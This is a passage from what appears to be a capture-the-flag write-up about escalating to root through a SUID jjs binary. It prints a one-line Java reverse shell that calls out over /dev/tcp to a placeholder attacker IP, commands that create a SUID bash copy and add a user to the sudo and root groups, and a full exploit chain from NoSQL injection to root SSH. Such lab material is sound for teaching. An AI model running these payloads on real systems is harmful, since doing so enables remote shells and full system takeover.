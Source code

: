### Other SUID Payloads

1. java one-line reverse shell: [Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet); `-p` is important, to allow bash to execute while setting admin as effective user and root as real user

```console
echo "Java.type('java.lang.Runtime').getRuntime().exec(['/bin/bash','-p','-c','exec 5<>/dev/tcp/10.10.xx.xx/xxxx;cat <&5 | while read line; do \$line 2>&5 >&5; done']).waitFor()" | jjs
```

2. copy bash and set it as suid

```console
echo "Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/bash /tmp/mybash').waitFor()" | jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +xs /tmp/mybash').waitFor()" | jjs
/tmp/mybash -p
```

3. add admin into sudo (or root) group

```console
echo "Java.type('java.lang.Runtime').getRuntime().exec('usermod -aG sudo admin').waitFor()" | jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('usermod -aG root admin').waitFor()" | jjs
```

## Exploit Chain

port scan -> http site & https site -> https nothing -> http login page -> NoSQL injection -> Mongodb -> bruteforce username & password -> ssh login as mango -> su admin -> enum SUID files -> jjs -> write pub key into authorized_keys -> ssh login as root
